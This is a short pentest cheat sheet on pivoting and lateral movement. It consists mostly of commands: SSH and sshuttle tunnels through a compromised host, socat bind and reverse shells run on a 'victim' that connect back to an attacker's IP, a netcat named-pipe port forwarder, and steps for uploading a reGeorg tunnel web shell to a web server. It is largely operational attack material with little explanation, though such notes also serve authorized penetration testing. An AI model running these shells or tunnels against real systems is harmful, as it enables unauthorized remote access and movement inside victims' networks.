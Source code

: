 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#pivoting #lateral-movement
# Check if your tunnel is active and running: 

- nc -z localhost port || echo 'no tunnel open'
- netstat -lpnt | grep port | grep ssh
- ps aux | grep ssh
- ss -ntlp

# SSH Tunneling

Note: Target must have SSH running for there service

1. Create SSH Tunnel: ssh -D localhost:local port -f -N user@localhost -p Target Port
2. Setup ProxyChains. Edit the following config file (/etc/proxychains.conf)
3. Add the following line into the config: Socks5 127.0.0.1 Local Port
4. Run commands through the tunnel: proxychains command

# SShuttle

In Kali

Source: https://github.com/sshuttle/sshuttle

- sshuttle -r root@172.21.0.0 10.2.2.0/24
- sshuttle -D -r user@host 10.10.10.10 0/0 --ssh-cmd 'ssh -i ./id_rsa' # Daemon mode
- sshuttle -D --dns -vr user@yourserver.com 0/0 --ssh-cmd 'ssh -i /your/key/path.pem' # Daemon mode with DNS
- Working with your .ssh/config:
```
sshuttle --dns -vr user@server 0/0 --ssh-cmd 'ssh jumpbox'
sshuttle --dns -r myserver 0/0 -x <server-IP>
```

# Socat

## Bind Shell

```
victim> socat TCP-LISTEN:443,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane
attacker> socat FILE:`tty`,raw,echo=0 TCP4:<victim_ip>:443
```

## Reverse Shell

```
attacker> socat TCP-LISTEN:443,reuseaddr FILE:`tty`,raw,echo=0
victim> socat TCP4:<attackers_ip>:443 EXEC:bash,pty,stderr,setsid,sigint,sane
```

# Port Forwarder
1. mknod pivot p
2. nc -l -p < port to listen on> 0<pivot | nc "target" "pivot-port" 1>pivot

# reGeorg

Source: https://github.com/sensepost/reGeorg

Note: reGeorg requires Python 2.7 and the following modules:

urllib3 - HTTP library with thread-safe connection pooling, file post, and more.

1. Upload tunnel.(aspx|ashx|jsp|php) to a webserver
2. Configure the tool to use a socks proxy, use the ip address and port you specified when you started the reGeorgSocksProxy.py
```
python reGeorgSocksProxy.py -p 8080 -u http://upload.megacorpone.net:8080/tunnel/tunnel.jsp
```